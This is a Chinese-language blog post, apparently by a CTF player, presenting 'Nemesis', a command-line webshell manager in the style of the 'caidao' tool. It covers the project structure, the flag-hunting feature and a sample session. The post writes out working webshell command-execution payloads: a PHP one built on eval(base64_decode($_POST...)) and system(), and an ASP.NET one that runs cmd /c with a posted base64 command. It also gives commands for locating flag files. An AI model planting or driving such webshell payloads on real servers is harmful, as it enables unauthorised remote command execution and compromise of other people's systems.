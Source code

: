 ```yaml
---
title: Nemesis (Cli Webshell Manager)
summary: 编写了一个方便网管管理网站的命令行工(cai)具(dao)
featured-img: caidao 
layout: post
---
```


***

### 造轮子，命令行菜刀

P.s. 下一个轮子想用`Golang`写一个内网穿透`B/S`工具

***

### 关于此项目

玩具属性，总共也就不到500行代码

本文主要写开发过程的问题，具体使用方法及功能见：

[项目地址](https://github.com/EddieIvan01/Nemesis)

***

项目目录：

```
Nemesis/
    |____nemesis.py            # Manager类，主循环函数
    |____config.json           # Manager模式的Webshell列表配置文件
    |____exploit/
            |____ __init__.py
            |____exp.py        # Windows/Linux两个系统的EXP类，继承自基类BaseEXP
            |____payload.py    # http payload
```

程序分为两种模式：

1. Manager Mode
   读取config.json配置文件，程序入口进入Manager交互，有可选项如切换编码/shell密码，自动寻找Flag，进入交互式shell

2. Shell Mode
   单一shell模式，程序直接进入shell交互

程序架构：

`exploit`包中为http payload相关实现，`WindowsEXP/LinuxEXP`两个类，继承自`BaseEXP`，基类中实现了主要的发送payload等功能。生成payload函数在`payload.py`，根据语言生成参数化payload，为不同系统填入不同指令

`nemesis.py`定义了`Manager`类，提供了管理shell，交互式命令行等等功能

***

菜刀的Payload，可详见`Nemesis/payload.py`

```php
ck = @eval(base64_decode($_POST[a0]));
        
a0 = @ini_set("display_errors","0");
	@set_time_limit(0);
    @set_magic_quotes_runtime(0);echo("->|");
    ;
    $s=base64_decode($_POST["a1"]);
    @system($s);
    die();
        
a1 = whoami
```

```asp
ck = eval(Request.Item["a0"],"unsafe");
a0 = Response.Write("->|");
    var err:Exception;
    try{
    var c="cmd";
    var e=new System.Diagnostics.Process();
    var out:System.IO.StreamReader,EI:System.IO.StreamReader;
    c.UseShellExecute=false;
    c.RedirectStandardOutput=true;
    c.RedirectStandardError=true;
    e.StartInfo=c;
    c.Arguments="/c "+System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String(Request.Item["a1"]));
    e.Start();
    out=e.StandardOutput;
    EI=e.StandardError;
    e.Close();
    Response.Write(out.ReadToEnd()+EI.ReadToEnd());
    }catch(err){
    Response.Write("ERROR:// "+err.message);
    }
    Response.End();
a1 = whoami
```

***

关于自动找Flag功能：

记得又一次比赛拿到shell了确花了好几分钟找flag文件在哪儿（骂），所以写了这个功能

在`Manager Mode`下，输入`flag`，然后交互式输入`shell index`，输入盘符/目录，即可自动寻找文件名中带`flag`的文件，并自动读取其中内容正则匹配`/(\w+\{[-\w]+\})/`，成功则输出

`Windows`下自动寻找文件的指令

`for /r c:\ %i in (flag.*) do @echo %i`，说起来这还是给学校网站做渗透测试时候get到的姿势

`Linux`下

`find / -name flag.*`

```
> python3 nemesis.py
         _   _                                   _
        | \ | |   ___   _ __ ___     ___   ___  (_)  ___
        |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
        | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
        |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/

             /* Webshell Manager */

[+]Initialize...

[*]Manager mode command:
     enter [index]                       --choose a shell to use
     set [index]:[encode | pwd] xxx      --change shells' encode or passwd
     flag                                --find flag in ctf
     exit

[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk

@Nemesis> flag
[+]Enter index: 0
[+]Enter dir: f

[+]Flag files:
f:\flag
f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
f:\tim_recv_file\MobileFile\flag.py
f:\tim_recv_file\MobileFile\flag.txt

[+]Flag found in f:\flag: abc{asdasd798yh9da7yas9dy7}

[+]No flag found in: f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.py

[+]No flag found in: f:\tim_recv_file\MobileFile\flag.txt


[*]Webshell list
[0] URL => http://127.0.0.1/shell.php   PWD =>ck   OS => win   ENCODE => gbk

@Nemesis>
```

